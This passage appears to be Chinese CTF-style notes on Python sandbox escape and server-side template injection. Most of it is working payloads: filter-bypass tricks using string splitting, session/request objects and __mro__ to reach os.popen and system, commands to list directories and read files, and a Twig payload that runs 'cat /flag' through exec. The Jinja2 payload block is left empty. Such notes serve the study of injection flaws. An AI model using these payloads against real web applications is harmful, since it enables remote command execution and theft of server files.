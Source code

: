 防：过滤过滤，把execfile()过滤了。

攻：用文件读取函数读入文件，再用exec()同样可以。

防：直接删文件。

攻：这样的话，我就想起了，没有编译器手写编译器的梗，这里完全可以用嘛。。。。
但是这样鲁莽地删除关键函数文件是很危险的，很容易出现莫名的依赖问题，不推荐使用。

#### 一些绕过小tips

+ 过滤[]等括号

使用gititem()绕过。如原poc：``{{"".__class__.__bases__[0]}}``，绕过后为：``{{"".__class__.__bases__.getitem(0)}}``。

+ 过滤了subclasses，拼凑法。

原poc：``{{"".__class__.__bases__[0].__subclasses__()}}``，绕过后为：``{{"".__class__.__bases__[0].'__subcla'+'sses__()'}}``。

+ 过滤class，使用session

绕过后的poc：``{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0].__subclasses__()[134]}}``。多个``__basees__[0]``是因为一直在向上找object类。使用mro就会方便很多：

```
{{session['__cla'+'ss__'].__mro__[12]}}
```

或者

```
{{request['__cla'+'ss__'].__mro__[12]}}
```

其他poc:

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```

#### 模板注入payload

+ Twig模块

判断方法：输入``{{7*'7'}}``返回49表示为 Twig 模块，我们使用payload：

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

+ Jinja2模块

判断方法：输入``{{7*'7'}}``返回7777777表示为 Jinja2 模块，我们使用payload：

```

```

参考文章：----->[micr067](https://home.cnblogs.com/u/micr067/)

​				   ----->[小猪佩琪](https://xz.aliyun.com/t/3679/)

​				   ----->[SSTI漏洞](https://www.k0rz3n.com/2018/11/12/一篇文章带你理解漏洞之SSTI漏洞/#2-Twig)


